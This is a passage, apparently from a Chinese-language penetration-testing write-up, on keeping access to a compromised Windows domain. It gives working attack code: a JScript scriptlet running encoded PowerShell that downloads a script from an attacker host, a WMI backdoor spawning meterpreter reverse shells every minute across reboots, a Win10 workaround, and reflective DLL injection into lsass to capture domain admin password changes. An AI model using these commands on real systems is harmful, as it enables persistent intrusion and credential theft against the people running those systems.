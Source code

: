 ```
&lt;?xml version="1.0"?&gt;
    &lt;package&gt;    &lt;component id="testCalc"&gt;
    &lt;script language="JScript"&gt;    &lt;![CDATA[    var r = new ActiveXObject("WScript.Shell").Run("powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwADEALgAxADAAMQAuADEANgAvAGMAaABtAC4AcABzADEAJwApAA==");    ]]&gt;    &lt;/script&gt;
    &lt;/component&gt;    &lt;/package&gt;
```

enc编码前的内容依然是：

```
IEX (New-Object System.Net.WebClient).DownloadString('
http://10.101.101.16/chm.ps1'
;)
```

执行之后，每分钟会反弹一个meterpreter的shell，而且重启后依然会反弹：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7hibq9a7j21660eg1kx.jpg)

Ps: 这个wmi的后门我在Win10上实验的时候不能执行 Payload ，如果触发到后门的触发条件的话， Win10 会弹出 openwith.exe 这个进程，界面上看就是这个：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7hjbkw1cj20ga0lpgms.jpg)

查了两天资料也没有找到一个正经的解决方法，但是后来把 openwith.exe 换成 cmd.exe 就可以执行 Payload 了，因为 win7 和 win2008 没有 openwith ，所以没有遇到什么阻力就直接执行Payload，但是 Win10 和 Win8 在正常情况下就会打开 openwith ，这个后门的清理方式可以参考：[https://www.52pojie.cn/thread-607115-1-1.html](https://www.52pojie.cn/thread-607115-1-1.html)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7hkg4vpsj20to0bx45f.jpg)

最后，我还想放置一个后们，在域控管理员改密码的时候记录他的新密码[[参考](http://wooyun.jozxing.cc/static/drops/tips-13079.html)]，注意他的脚本里面有一个选项可以从你的 Web 服务器加载一个dll到对方主机内存里面，这样你把你的dll生成好之后就可以放在你的 Web 服务器下面，在这个ps1最下面加入：

```
Invoke-ReflectivePEInjection -PEUrl 
http://10.101.101.16/HookPasswordChange.dll
 –procname lsass
```

然后你把这个脚本的调用加入到chm.ps1里面，下面是改动之后chm.ps1里面的内容：

```
IEX (New-Object System.Net.WebClient).DownloadString("
http://10.101.101.16/HookPasswordChangeNotify.ps1"
;)
IEX (New-Object System.Net.WebClient).DownloadString("
http://10.101.101.16/powersploit/CodeExecution/Invoke-Shellcode.ps1"
;); Invoke-Shellcode -payload windows/meterpreter/reverse_https -lhost 10.101.101.16 -lport 7777 -force
```
